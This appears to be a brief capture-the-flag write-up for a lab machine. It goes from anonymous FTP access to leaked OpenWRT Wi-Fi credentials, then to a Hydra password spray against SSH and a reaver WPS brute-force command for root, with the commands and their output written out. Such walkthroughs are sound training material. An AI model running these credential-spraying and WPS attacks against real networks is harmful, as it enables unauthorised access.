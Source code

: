 In the initial nmap search I was able to find an open ftp port that I was able to login under the anonymous username without password.

From there I was able to `get` several SSID OpenWRT configuration files that got me the password `VeRyUniUqWiFIPasswrd1!` 

From there I used Hydra to brute force the user list found in the config files:

```
hydra -L usernames.txt -p 'VeRyUniUqWiFIPasswrd1!' 10.129.229.90 ssh
```

And received this result:

```
[22][ssh] host: 10.129.229.90   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
```

So from the above we get user access to the attacking box, but we need to privilege escalate to get root access. Below are some commands to get information on wireless interfaces on our attacking boi:

```
$ ifconfig
$ systemctl status wpa_supplicant.service
$ systemctl status hostapd.service
$ iwconfig
$ iw dev
```

Finally we run `reaper`, which gets us our root pw:

```
reaver -i mon0 -b 02:00:00:00:00:00 -vv -c 1
```
